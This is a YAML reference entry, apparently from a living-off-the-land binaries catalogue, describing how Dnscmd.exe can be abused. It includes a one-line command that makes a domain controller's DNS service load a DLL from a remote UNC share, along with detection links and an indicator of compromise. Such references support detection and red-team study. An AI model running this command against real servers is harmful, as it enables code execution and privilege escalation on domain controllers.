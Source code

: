 ```yaml
---
Name: Dnscmd.exe
Description: A command-line interface for managing DNS servers
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
    Description: Adds a specially crafted DLL as a plug-in of the DNS Service. This command must be run on a DC by a user that is at least a member of the DnsAdmins group. See the reference links for DLL details.
    Usecase: Remotely inject dll to dns server
    Category: Execute
    Privileges: DNS admin
    MitreID: T1543.003
    OperatingSystem: Windows server
    Tags:
      - Execute: DLL
      - Execute: Remote
      - Input: Custom Format
Full_Path:
  - Path: C:\Windows\System32\Dnscmd.exe
  - Path: C:\Windows\SysWOW64\Dnscmd.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_dnscmd_install_new_server_level_plugin_dll.yml
  - IOC: Dnscmd.exe loading dll from UNC/arbitrary path
Resources:
  - Link: https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
  - Link: https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
  - Link: https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
  - Link: https://twitter.com/Hexacorn/status/994000792628719618
  - Link: http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html
Acknowledgement:
  - Person: Shay Ber
    Handle:
  - Person: Dimitrios Slamaris
    Handle: '@dim0x69'
  - Person: Nikhil SamratAshok
    Handle: '@nikhil_mitt'
---
```

